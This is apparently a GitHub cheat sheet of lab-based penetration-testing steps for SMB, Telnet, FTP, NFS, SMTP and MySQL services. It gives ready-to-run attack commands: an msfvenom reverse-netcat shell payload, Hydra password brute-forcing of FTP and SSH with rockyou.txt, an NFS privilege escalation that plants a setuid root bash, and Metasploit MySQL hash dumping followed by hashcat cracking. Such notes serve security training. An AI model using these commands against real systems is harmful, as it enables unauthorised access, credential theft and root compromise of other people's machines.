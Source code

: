 # Enumeration-Techniques
## SMB Enumeration
**1. Scan the network and find out port with** : `nmap -sV -p <port> <ip>` **(default port 445)**\
**2. After that enumerate smb server with Enum4linux** : `enum4linux [options] <ip>`
<details>
  <summary>Enum4linux options</summary>
  <p>-U  get userlist</p>
  <p>-M  get machine list</p>
  <p>-N   get namelist dump (different from -U and-M)</p>
  <p>-S  get sharelist</p>
  <p>-P  get password policy information</p>
  <p>-G  get group and member list</p>
  <p>-a  all of the above (full basic enumeration)</p>
</details>

### Other Enumeration Techniques (unix)
  `nmap -v -p 139,445 -oG smb.txt <ip range>` \
  `nbt scan -r <ip/range>`\
  `nmap -v -p 139,445 –script smb-os-discovery <ip>`
  
**Extra** `smbclient //IP/SHARE` **(for connecting)**

  
### On Windows
  `Net view \\dc01 /all`


## Telnet Enumeration
**1. Scan the network to identify the port (default 23)** : `nmap -sV -p- <ip>` **(scan all ports)** \
**Can use `--stats-every 5s` for checking progress in nmap if you're impatient like me. ;)**\
**Extra** : `sudo tcpdump ip proto \\icmp -i tun0` **use this for starting a tcpdump listner to identify any kind of backdoor etc.**

<h3>Reverse Shell using netcat</h3>

**MSFVenom payload generate** : `msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R`


## FTP Enumeration
**1. Scan the network like always (use nmap my choice)**\
**2. Try default username & password combinations** [Seclists FTP Default Credentials](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt)\
**3. Bruteforce username and passwords using hydra**

**Usage** : `hydra -l <username> -P passwordslist.txt ftp://<ip>`\
**Usage** : `hydra -L usernames.txt -P passwordlist.txt ftp://<ip>:port`

## NFS Enumeration
**1. Scanning target all ports with nmap (agressive scan use with cation)** : `nmap -A -p- <target ip> --stats-every 5s`\
**2. Create a mount point to access shared folder** : `mkdir -p /tmp/mount`\
**3. Listing NFS share** : `/usr/sbin/showmount -e <ip>`\
**4. Mount into your system** : `sudo mount -t nfs IP:share /tmp/mount/ -nolock`

<details>
  <summary>Privilege Escalation</summary>
  
1. Go to mount point here mine is `/tmp/mount` and the shared folder was `cappucino` enter the folder
2. Search for `.ssh/id_rsa` copy that to your system and login using user\
Extra : **Download NFS files using scp** : `scp -i id_rsa username@<target ip>:/bin/bash ~/Downloads/bash`
3. **Download manually** : [bash](https://raw.githubusercontent.com/polo-sec/writing/refs/heads/master/Security%20Challenge%20Walkthroughs/Networks%202/bash)
4. On another tab go to **/tmp/mount/cappucino** on attacker machine and copy the bash shell downloaded previous line [bash](https://raw.githubusercontent.com/polo-sec/writing/refs/heads/master/Security%20Challenge%20Walkthroughs/Networks%202/bash)
5. change the bash file ownership to root using : `sudo chown root bash`
6. Give the bash shell special and executable privilege with : `sudo chmod +xs bash`
7. Login to ssh with the user and check for the bash file you've put just now and execute using : `./bash -p`
8. Bam !! You got the root shell 😅 ?
</details>

## SMTP Enumeration
**1. As always find out the port SMPT running on using (default port 25)** : `nmap -sV -p- <target ip>` or `nmap -A -p- <target ip>`\
  **Important for next step: Install metasploit-framework for using available modules for enumeration and exploitation**\
  **`sudo apt install metasploit-framework` or refer to this [Metasploit-Framework](https://github.com/rapid7/metasploit-framework?tab=readme-ov-file)**\
**2. Start Metasploit-Framework using** : `msfconsole`\
**3. Search for module with** : `search smpt_version`\
**4. Select the module by typing** : `use 0` **0 is the index number** or `use auxiliary/scanner/smtp/smtp_version`\
**5. Use** : `info` **or** `options` **to see required options needed to be set**\
**6. Use (in this case only needed to be rhosts becasuse port was same as 25, change if needed) :** `set rhost <target ip>`\
**7. Run the exploit using :** `run` or `exploit`\
Got the info !! 😸

<h3>Let's Try other modules for more info</h3>

**1. Search another module** : `search smtp_enum` and select it using `use 0` or `use auxiliary/scanner/smtp/smtp_enum`\
**2. Set required options** : `set rhosts <target ip>` & `set user_file /path/top-usernames-shortlist.txt`\
  **Download the username file from here**: [usernames/seclists](https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Usernames/top-usernames-shortlist.txt)\
**3. Run the exploit:** `run` or `exploit`\
**Yay !! Got the username [administrator]()**

<h3>Now we'll use Hydra to dictionary attack on ssh with the username for passwords using rockyou.txt</h3>

[rockyou.txt](https://raw.githubusercontent.com/zacheller/rockyou/refs/heads/master/rockyou.txt.tar.gz)\
**Using hydra :** `hydra -l administrator -P /path/rockyou.txt ssh://<target ip> -t 4`\
(check man page or hydra --help for more combinations)\
**Hope you got the password now login to ssh** `ssh administrator@<ip>` then enter password 🙂

## MYSQL Enumeration (Used Vuln Lab)
**1. Find the port on which mysql db (default port 3306) running using nmap (same as previous command)**\
**2. Open metasploit and search for mysql_sql** : `search mysql_sql` and select\ 
  select using `use auxiliary/admin/mysql/mysql_sql` or `use 0` (0 is the index number mentioned in msfconsole)\
**3. Set the required parameters like RHOSTS USERNAME and PASSWORD and run**\
**4. Use module `auxiliary/scanner/mysql/mysql_schemadump` to gather more info**\
**5. Next this module for hashdump `auxiliary/scanner/mysql/mysql_hashdump`**\
**Got the hashdump and start using hashcat or john to crack the hash** : `hashcat -a 0 -m 300 <hash> /path/rockyou.txt`\
**After getting the password logged in due to insecure and same password on ssh**
